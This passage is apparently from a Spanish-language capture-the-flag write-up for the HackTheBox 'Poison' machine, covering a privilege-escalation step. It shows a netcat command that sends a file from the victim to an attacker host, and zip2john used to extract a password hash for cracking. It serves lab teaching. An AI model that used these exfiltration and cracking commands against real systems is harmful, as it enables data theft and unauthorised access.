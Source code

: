 ## Privilege Escalation

- Vemos un `secret.zip` vamos a enviarlo a nuestra maquina de atacante para analizarlo.

```bash
❯ nc -nlvp 443 > secret.zip
listening on [any] 443 ...
```

- Ahora lo enviamos.

```bash
charix@Poison:~ % nc 10.10.14.17 443 < secret.zip
```

- Vemos que hay un `secret`.

```bash
❯ 7z l secret.zip

7-Zip 24.07 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-06-19
 64-bit locale=C.UTF-8 Threads:128 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 166 bytes (1 KiB)

Listing archive: secret.zip

--
Path = secret.zip
Type = zip
Physical Size = 166

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2018-01-24 11:01:14 .R..A            8           20  secret
------------------- ----- ------------ ------------  ------------------------
2018-01-24 11:01:14                  8           20  1 files
```

- Si hacemos un `unzip` nos pide contraseña.

```bash
❯ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password: 
```

- Vamos a usar `zip2john` para extraer un hash y posteriormente crackearlo para obtener la contraseña.

```bash
❯ zip2john secret.zip > hash
ver 2.0 secret.zip/secret PKZIP Encr: cmplen=20, decmplen=8, crc=77537827 ts=9827 cs=7753 type=0
```

- Y bueno no tenemos suerte por que no esta la contraseña en el `rockyou.txt`.
